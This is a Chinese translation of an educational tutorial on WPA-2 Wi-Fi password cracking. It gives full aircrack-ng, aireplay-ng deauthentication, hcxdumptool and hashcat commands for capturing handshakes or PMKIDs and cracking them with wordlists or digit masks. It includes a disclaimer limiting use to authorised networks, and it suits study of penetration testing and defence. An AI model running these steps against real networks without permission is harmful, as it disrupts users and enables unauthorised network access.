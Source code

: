# 无线渗透测试(WPA-2 破解)

> 原文：<https://infosecwriteups.com/wireless-penetration-testing-wpa-2-cracking-9c925e51a873?source=collection_archive---------0----------------------->

在本文中，我将讨论无线渗透测试和破解 WPA-2 保护的 Wifi。我将谈论我们可以用来测试 WPA-2 网络的两种不同的方法。所以，我们进入正题:)

> **注意:**本文仅用于教育目的。你必须只在你合法拥有的或者你有许可测试的网络上进行测试。

![](img/791968e26bc4be82e079be7b80f19743.png)

由[米沙·费舍切克](https://unsplash.com/@extaf_ms?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

有两种方法，我们可以使用，一个是捕获全程握手，第二个是通过使用 hcxdumptool。一旦我们得到了散列文件或握手文件，我们就可以使文件离线并破解散列。所以基本上，我们将通过两种方式获得散列文件，然后我们需要使用 Hashcat 来破解散列。

*先决条件:*

1.  Wifi 适配器(支持监控模式)。
2.  一台 Linux 机器。
3.  airmon-ng、airodump-ng、aircrack-ng(用于方法 1)
4.  hcxdumptool 和 hcxtools(用于方法 2)
5.  哈希卡特
6.  您有权测试的 Wifi 网络。

# 1.捕获全程握手(airodump-ng)

我知道这种破解 wifi 密码的老方法，但它仍然工作得很好。在这个方法中，我们将通过向网络上的用户发送 de-auth 信号来捕获一次完全的握手。

通过输入以下命令安装所需的软件

```
sudo apt install aircrack-ng
```

首先让网络接口进入监控模式。键入以下命令启动监控模式。

```
iwconfigsudo airmon-ng check killsudo airmon-ng start wlp8s0
```

这里，wlp8s0 是我的网络接口。

键入 iwconfig，确保监控模式已启动。

![](img/9f3dcd86b2a09ed0eecb952c452a4de2.png)

现在，我们可以使用 airodump-ng 来列出所有的 wifi 网络

```
sudo airodump-ng wlp8s0mon
```

![](img/cda2fcf1f898f661f34eb7551a3ceca9.png)

它将显示网络 BSSID 和网络的信道(CH)细节。

复制目标 Wifi BSSID 和 CH。

现在，使用下面的命令开始转储一个完全握手

```
sudo airodump-ng -c 6 --bssid A6:0C:ID:ID:ID:ID -w filename wlp8s0mon
```

![](img/2cf842c654111a3f3dfa8fc30691902d.png)

它开始监听握手。我们可以看到连接到目标网络的设备。为了捕获全程握手，我们需要向目标网络上的用户发送一个 de-auth 信号。要发送解除授权信号，请打开一个新的终端选项卡，并使用以下命令。

```
sudo aireplay-ng -0 1 -a WIFI:BSSID -c DEVICE:BSSID wlp8s0mon
```

一旦身份验证完成，返回到先前的终端。您可以看到 WPA 握手被捕获。现在，您可以按 ctrl+c 来停止该过程。

![](img/9cc14a8498add373b7ff782389185b8c.png)

现在，我们有了 filename.cap 文件。我们可以使用 aircrack-ng 来破解密码，也可以将 filename.cap 转换为 hash.hc22000，然后使用 hashcat 来破解哈希。

*   要使用 aircrack-ng 破解，请使用以下命令。

```
aircrack-ng -w rockyou.txt -b BSSID filename.cap
```

![](img/2e39b70c3f1eb72138e841eb8cf77e03.png)

*   要转换。使用下面的网站。

> [https://hashcat.net/cap2hashcat/](https://hashcat.net/cap2hashcat/)

![](img/4b9fd4fd0e7163856fb0f2906f12148a.png)

在网站上传 filename.cap，可以下载转换后的 hash.hc22000 文件。

# 2.使用 hcxdumptool

这种方法简单易行，并且不需要向网络上的用户发送去授权信号。

从以下链接安装 hcxdumptool 和 hcxtools:

> [https://github.com/ZerBea/hcxdumptool](https://github.com/ZerBea/hcxdumptool)
> 
> https://github.com/ZerBea/hcxtools

一旦安装了所需的软件，请按照流程操作。

首先，使用以下命令停止网络管理器和 Wpa 请求程序。

```
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```

然后，启动 hcxdumptool 来转储 pcapng 文件。

```
sudo hcxdumptool -i wlp8s0 -o dumpfile.pcapng --active_beacon --enable_status=15
```

![](img/bc4937983729bba4a53fd99c1801d9fb.png)

一旦开始，我们可以等待一些捕获足够的数据包。然后，用 ctrl+c 停止这个过程。

现在，我们的机器中有了 dumpfile.pcapng 文件。通过以下命令启动网络管理器和 wpa 恳求者服务。

```
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```

接下来，我们必须转换。pcapng 文件转换为可破解的. hc22000 文件。为此，请使用以下命令。

```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

现在，我们有了 hash.hc22000 文件，可以使用 hashcat 来破解它。

# 3.开裂哈希卡

从 https://hashcat.net/hashcat[下载 hashcat 的最新版本](https://hashcat.net/hashcat/)

*   使用 hashcat 的字典攻击(wordlist)。

```
hashcat -m 22000 hash.hc22000 rockyou.txt
```

*   使用 hashcat 的暴力。

```
hahscat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```

以上命令用于暴力破解一个 8 位数的密码。

```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d?d?d
```

您还可以形成一个 10 位数字的密码模式，并以 9 开头。

```
hashcat -m 22000 hash.hc22000 -a 3 9?d?d?d?d?d?d?d?d?d
```

要制作自己的面具图案，请参考以下来自 hashcat 的指南。

> [https://hashcat.net/wiki/doku.php?id=mask_attack](https://hashcat.net/wiki/doku.php?id=mask_attack)

感谢您阅读我的文章。希望这对你有用。

如果你喜欢这篇文章，请分享并关注我更多有趣的文章:)